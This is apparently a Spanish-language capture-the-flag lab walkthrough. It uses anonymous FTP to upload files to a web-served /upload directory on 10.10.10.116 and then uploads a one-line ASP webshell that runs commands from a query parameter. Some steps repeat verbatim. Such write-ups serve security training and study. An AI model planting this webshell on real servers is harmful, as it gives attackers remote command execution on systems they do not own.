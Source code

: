 Encontramos un routa `/upload`

Si miramos con firefox vemos que tenemos capacidad de directory listing pero no hay nada. Intentamos subir cosas por ftp 
a ver si se nos lista aqui.

### Conneccion anonyma por FTP {-}

```bash
ftp 10.10.10.116
Name: anonymous
dir
ls -la
```

En otro terminal creamos un fichero de prueba `echo "EEEEE" > prueba.txt` y lo subimos por ftp.

```bash
put prueba.txt
```

Si miramos en la web en la direccion `/upload` podemos ver el fichero prueba.txt.


## Vulnerability Assessment {-}

### Conneccion anonyma por FTP {-}

```bash
ftp 10.10.10.116
Name: anonymous
dir
ls -la
```

En otro terminal creamos un fichero de prueba `echo "EEEEE" > prueba.txt` y lo subimos por ftp.

```bash
put prueba.txt
```

Si miramos en la web en la direccion `/upload` podemos ver el fichero prueba.txt.

### Remote Code execution con fichero asp {-}

Buscamos una reverse shell con la pagina web [hackingdream](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)
y vemos el oneliner para la webshell asp.

```bash
vi s4vishell.asp

<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

lo subimos con ftp

```bash
put s4vishell.asp
```
